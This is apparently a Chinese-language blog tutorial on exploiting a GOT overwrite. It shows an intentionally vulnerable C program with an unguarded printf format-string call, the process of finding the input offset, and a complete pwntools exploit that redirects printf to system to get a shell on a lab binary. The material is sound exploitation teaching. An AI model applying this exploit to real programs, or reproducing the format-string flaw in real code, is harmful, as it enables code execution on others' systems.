 ```yaml
---
title: 利用 GOT Overwrite
subtitle:
date: 2023-08-28T20:14:36+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


GOT Overwrite 利用实战

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/got-overwrite-32.zip" content="got-overwrite-32.zip" title="Download got-overwrite-32.zip" download="got-overwrite-32.zip" card=true >}}

这可能是 GOT Overwrite 题中最简单的一个了。

```c
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，
只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp：

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

{{< link href="/pwn_assets/got-overwrite-64.zip" content="got-overwrite-64.zip" title="Download got-overwrite-64.zip" download="got-overwrite-64.zip" card=true >}}

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

{{< link href="/pwn_assets/got-overwrite-aslr.zip" content="got-overwrite-aslr.zip" title="Download got-overwrite-aslr.zip" download="got-overwrite-aslr.zip" card=true >}}


